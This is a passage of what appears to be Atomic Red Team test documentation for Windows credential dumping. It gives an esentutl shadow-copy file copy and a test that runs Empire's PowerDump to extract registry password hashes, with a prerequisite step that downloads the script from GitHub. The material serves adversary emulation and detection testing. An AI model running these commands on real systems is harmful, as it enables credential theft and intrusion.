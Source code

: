 
#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
esentutl.exe /y /vss #{file_path} /d #{copy_dest}/#{file_name}
```

#### Cleanup Commands:
```cmd
del #{copy_dest}\#{file_name} >nul 2>&1
```





<br/>
<br/>

## Atomic Test #4 - PowerDump Hashes and Usernames from Registry
Executes a hashdump by reading the hashes from the registry.

**Supported Platforms:** Windows


**auto_generated_guid:** 804f28fc-68fc-40da-b5a2-e9d0bce5c193






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Write-Host "STARTING TO SET BYPASS and DISABLE DEFENDER REALTIME MON" -fore green
Import-Module "PathToAtomicsFolder\..\ExternalPayloads\PowerDump.ps1"
Invoke-PowerDump
```




#### Dependencies:  Run with `powershell`!
##### Description: PowerDump script must exist on disk at specified location
##### Check Prereq Commands:
```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\PowerDump.ps1") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction ignore -Force | Out-Null
Invoke-Webrequest -Uri "https://raw.githubusercontent.com/BC-SECURITY/Empire/c1bdbd0fdafd5bf34760d5b158dfd0db2bb19556/data/module_source/credentials/Invoke-PowerDump.ps1" -UseBasicParsing -OutFile "PathToAtomicsFolder\..\ExternalPayloads\PowerDump.ps1"
```
